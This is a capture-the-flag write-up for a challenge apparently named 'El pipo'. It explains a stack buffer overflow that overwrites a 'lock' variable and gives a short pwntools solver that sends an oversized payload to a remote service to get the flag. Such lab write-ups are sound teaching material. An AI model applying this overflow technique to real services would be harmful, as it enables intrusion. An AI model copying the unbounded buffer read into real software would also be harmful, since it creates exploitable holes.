


# El pipo

First, we analyze the binary to understand its logic.


From the decompiled pseudocode, we observe several initialized variables. The most important one is `lock`, which controls access to the flag. Under normal execution, this variable is set to `0x01` and cannot be modified through regular program flow.

To solve the challenge, we need to change the value of `lock`.

The program reads user input into a fixed-size buffer without proper bounds checking, which introduces a buffer overflow vulnerability. By sending input larger than the buffer, we can overwrite adjacent values on the stack, including the `lock` variable.

Since the only requirement is for `lock` to have a value different from `0x01`, the exploit is straightforward: send a sufficiently large payload to overflow the buffer and overwrite `lock`.

## Solver.py

```python
#!/usr/bin/python3
from pwn import *
import warnings
import os
import sys

warnings.filterwarnings('ignore')
context.log_level = 'critical'

fname = './el_pipo'

LOCAL = False 

os.system('clear')

if LOCAL:
    print('Running solver locally..\n')
    r = process(fname)
else:
    IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
    PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
    r = remote(IP, PORT)
    print(f'Running solver remotely at {IP} {PORT}\n')

# send payload
r.sendline(b'A' * 100)

# read flag
print(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}\n')
```
*Remember that this script only works locally*

## Vulnerability

To better understand the vulnerability, let’s examine the assembly.


Local variables are stored on the stack, including the input buffer. Because the program does not properly limit the amount of data written into this buffer, it is vulnerable to a buffer overflow.

The stack grows from higher memory addresses to lower ones. When input exceeds the buffer size, it overwrites adjacent variables located further up the stack frame. In this case, the overflow reaches the `lock` variable.

By overwriting `lock` with any value other than `0x01`, we bypass the program’s check and obtain the flag.


